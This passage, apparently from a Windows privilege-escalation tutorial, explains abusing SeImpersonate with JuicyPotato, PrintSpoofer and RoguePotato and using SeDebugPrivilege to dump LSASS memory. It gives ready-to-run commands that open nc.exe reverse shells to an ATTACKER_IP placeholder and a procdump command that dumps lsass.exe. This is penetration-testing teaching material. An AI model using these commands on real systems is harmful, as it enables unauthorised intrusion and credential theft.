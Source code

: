 We are going to use [JuicyPotato](https://github.com/ohpe/juicy-potato) that can be used to exploit the ```SeImpersonate``` or ```SeAssignPrimaryToken``` privileges via DCOM/NTLM reflection abuse. Start a netcat listener on your attacker machine and then launch this command :

```posh
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe ATTACKER_IP ATTACKER_PORT -e cmd" -t *
```

> You may get issues if you don't put the full path of a file.
{: .prompt-tip }

> Note that we are using a ```cmd``` reverse shell but we can of course use ```powershell``` instead.
{: .prompt-info }

> If you are not running the exploit from a running process like an SQL server. You may need to add the ```-c``` flag. Then add a value, depending on the machine you are on, from [here](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md). If the first value doesn't work try the second, then the third... until it works.
{: .prompt-warning }

Where [JuicyPotato](https://github.com/ohpe/juicy-potato) doesn't work ```Windows Server 2019``` and ```Windows 10 build 1809``` onwards, [RoguePotato](https://github.com/antonioCoco/RoguePotato) and [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) do work.

```posh
c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe  ATTACKER_IP ATTACKER_PORT -e cmd"
```

or

```posh
c:\tools\RoguePotato.exe -r ATTACKER_IP -e "c:\tools\nc.exe  ATTACKER_IP ATTACKER_PORT -e cmd" -l LISTENING_PORT
```

> Note that we are using a ```cmd``` reverse shell but we can of course use ```powershell``` instead.
{: .prompt-info }

### SeDebugPrivilege

Instead of adding the account to the administrators group, a user may be given the ```SeDebugPrivilege``` to run a specific program or service or help with troubleshooting. To leverage this privilege we can dump process memory. The ```Local Security Authority Subsystem Service``` (LSASS) process is a good target. We can do it with the GUI or with the command line. With the GUI, you will need to launch the ```Task Manager```, go to the ```Details``` section and find the ```lsass.exe``` process. When found, you can right click on it and select ```Create dump file```. The command for the command line is :

```posh
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

> ```procdump.exe``` may not be installed by default but you can install it from the [Windows website](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump)
{: .prompt-info}
